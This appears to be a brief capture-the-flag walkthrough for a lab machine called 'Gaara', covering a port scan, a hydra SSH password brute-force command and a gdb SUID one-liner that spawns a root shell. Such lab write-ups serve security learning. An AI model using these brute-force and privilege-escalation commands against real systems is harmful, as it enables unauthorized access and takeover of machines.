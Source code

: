 # Gaara

![[Pasted image 20220520200215.png]]

```
192.168.1.146
```

## Port Scan

```bash
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
```

Nothing too interesting with the webserver, so I opted to brute-force ssh.

```bash
hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.1.146 ssh
```

![[Pasted image 20220526230534.png]]

Found an interesting base64 encoded clue

![[Pasted image 20220526230710.png]]

decoded:

![[Pasted image 20220526230955.png]]

The clue points to this file, which seems to contain some encrypted data:

![[Pasted image 20220526231108.png]]

I couldn't figure out what cipher (if any) this is encrypted with. I also wasn't understanding the clues, but they appear to be based on a show Naruto.

Linpeas finds an SUID

![[Pasted image 20220526231230.png]]

[GTFOBins](https://gtfobins.github.io/gtfobins/gdb/#suid) makes this easy

```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

root flag

![[Pasted image 20220526231507.png]]
